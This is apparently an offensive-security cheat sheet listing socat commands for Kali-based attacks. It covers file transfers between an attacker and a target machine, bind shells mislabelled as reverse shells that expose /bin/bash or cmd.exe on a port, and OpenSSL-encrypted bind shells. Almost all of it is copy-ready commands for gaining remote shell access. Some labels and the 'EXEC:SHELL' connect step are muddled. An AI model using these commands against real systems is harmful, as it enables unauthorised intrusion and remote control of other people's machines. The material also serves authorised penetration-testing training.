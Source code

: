 ## Socat
*These commands assume that the `socat` or `socat.exe` binary is installed on both Kali and target machines*
### Socat File Transfers
1. Set Listener with file on Kali Machine:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$FILENAME
```

2. Connect to Kali machine from target machine to download file:
```bash
socat TCP:$IP:$PORT file:$FILENAME,create
```

### Socat Reverse Shells
1. Set listener on target machine (**Linux**):
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash
```
**OR** 

Set listener on target machine (**Windows**)
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes
```

3. Connect to listener from Kali machine:
```bash
socat TCP4:$TARGET_IP:$PORT EXEC:SHELL

## SHELL can be /bin/bash, /bin/zsh, or cmd?
```

### Socat Encrypted Bind Shells
1. Create encryption certificate and private key on Kali machine:
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```
2. Create `.pem` file on Kali machine:
```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
```
3. Create shell on target machine (**Windows**):
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes
```
**OR** 

Create shell on target machine (**Linux**):
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash
```

4. Connect to target machine:
```bash
socat - OPENSSL:$TARGET_IP:$PORT,verify=0
```
